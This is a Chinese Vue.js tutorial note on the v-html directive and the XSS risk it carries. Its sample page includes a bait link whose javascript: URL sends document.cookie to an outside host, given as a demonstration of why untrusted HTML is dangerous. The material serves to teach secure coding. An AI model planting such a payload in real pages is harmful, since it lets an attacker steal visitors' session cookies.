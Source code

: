 ![image-20231120223145197](vue%E7%AC%94%E8%AE%B0.assets/image-20231120223145197.png)

#### 2.v-html_指令

注意:   使用 `v-html` 会存在一些潜在的安全风险和性能问题，因此在组件上使用 `v-html` 可能会导致组件内容被破坏，这也是 eslint-plugin-vue 中的 `[vue/no-v-text-v-html-on-component]` 规则所提醒的。

推荐的做法是尽量避免使用 `v-html`，而是通过 Vue.js 的数据绑定和模板语法来动态渲染内容

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 
				v-html指令：
						1.作用：向指定节点中渲染包含html结构的内容。
						2.与插值语法的区别：
									(1).v-html会替换掉节点中所有的内容，{{xx}}则不会。
									(2).v-html可以识别html结构。
						3.严重注意：v-html有安全性问题！！！！
									(1).在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
									(2).必须要在可信的内容上使用v-html，永不要用在用户提交的内容上！   --- 必须要在可信的内容上使用v-html
		-->
		<!-- 准备好一个容器-->
		<div id="root">
			<div>你好，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```

